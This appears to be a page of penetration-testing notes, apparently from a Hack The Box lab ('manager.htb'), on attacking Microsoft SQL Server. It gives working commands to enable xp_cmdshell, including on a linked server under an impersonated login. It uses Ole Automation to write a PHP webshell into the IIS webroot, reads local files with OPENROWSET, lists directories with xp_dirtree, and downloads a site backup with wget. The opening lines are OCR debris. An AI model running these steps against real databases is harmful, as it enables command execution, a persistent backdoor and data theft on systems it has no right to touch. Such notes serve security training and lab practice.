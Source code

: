 ```
```
To update the currently configured value for advanced options.
```
RECONFIGURE
GO
```
To enable the feature.
```
EXECUTE sp_configure 'xp_cmdshell', 1
GO
```
To update the currently configured value for this feature.
```
RECONFIGURE
GO
```
To enable xp_cmdshell on a linked server
```
EXECUTE AS LOGIN = 'john'
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
```
## Write Local Files
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file
MSSQL - Enable Ole Automation Procedures
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
MSSQL - Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
### Read Local Files
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
`xp_dirtree` is another feature for listing files on the filesystem. It works:
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\
```
Manage to the webroot and check for any files then you can use wget to download any file available in the webroot directory 
```
wget http://manager.htb/website-backup-27-07-23-old.zip
```
